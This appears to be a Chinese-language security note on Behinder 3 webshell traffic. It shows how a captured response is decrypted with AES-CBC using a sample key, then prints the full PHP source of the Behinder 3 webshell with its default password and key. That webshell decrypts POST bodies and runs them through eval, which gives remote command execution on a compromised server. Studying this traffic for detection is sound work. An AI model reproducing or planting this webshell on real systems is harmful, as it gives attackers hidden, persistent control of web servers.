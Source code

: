 #### 加解密

AES加密，参考工具：https://oktools.net/aes

- Response响应包的content length为16的字符串为key，例如`93edbafac50eb64c`。
- 模式：CBC，填充：Pkcs7。

![img](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202211091042813.png)

流量AES加解密示例：

```
# 密钥
key = 93edbafac50eb64c

# 密文
cipher = pu+VEA885HAovMSbbH5wj3cXwQkpnSRYpZy8fAWrRA3ETLuyZqRQSm6koxDp1mKeTYLUlMk59hK6lOAbj2Hh/vxXzVyn/4uPlKV7WeMOeRGLhBQMou01R+TJLP7NTtVn

# 通过在线工具解密
# 明文
{"status":"c3VjY2Vzcw==","msg":"YmMzYjNhNzktY2Q4NC00ZGUwLWJjYzUtMjQ0NmY4NzUxNjE1"}
# 再通过base64解密
{"status":"c3VjY2Vzcw==","msg":"bc3b3a79-cd84-4de0-bcc5-2446f8751615"}
```

### Behinder 冰蝎3

Webshell代码：

```php
# behinder3.php，密码rebeyond

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```
